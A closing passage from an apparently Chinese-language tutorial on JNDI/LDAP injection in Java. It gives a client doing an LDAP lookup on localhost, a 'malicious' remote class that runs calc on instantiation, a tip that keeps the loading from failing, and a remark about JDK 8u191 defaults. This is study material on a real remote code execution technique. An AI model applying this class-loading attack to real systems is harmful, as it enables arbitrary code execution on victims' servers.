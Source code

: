 ```
```

编写一个client客户端。

```
package com.rmi.rmiclient;




import javax.naming.InitialContext;
import javax.naming.NamingException;



public class clientdemo `{`
    public static void main(String[] args) throws NamingException `{`
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/calc");
`}``}`
```

编写一个远程恶意类，并将其编译成class文件，放置web页面中。

```
public class test`{`
    public test() throws Exception`{`
        Runtime.getRuntime().exec("calc");
    `}`
`}`
```

[![](https://p4.ssl.qhimg.com/t0126507fa138432ccf.png)](https://p4.ssl.qhimg.com/t0126507fa138432ccf.png)

这里有个坑点，就是恶意的类，不能包含最上面的package信息，否则会调用失败。下面来启动一下服务器端，然后启动客户端。

[![](https://p5.ssl.qhimg.com/t012cebaeeb40765f98.png)](https://p5.ssl.qhimg.com/t012cebaeeb40765f98.png)

在 JDK 8u191 `com.sun.jndi.ldap.object.trustURLCodebase`属性的默认值被调整为false。这样的方式没法进行利用，但是还是会有绕过方式。在这里不做赘述。

### <a class="reference-link" name="%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0"></a>参考文章

```
https://xz.aliyun.com/t/8214
https://xz.aliyun.com/t/6633
https://xz.aliyun.com/t/7264
```

在此感谢师傅们的文章，粗略的列了几个师傅的文章，但不仅限于这些。文中有一些错误的地方，望师傅们指出。



## 0x04 结尾

其实在这篇文中前前后后也是花费了不少时间，各种坑。
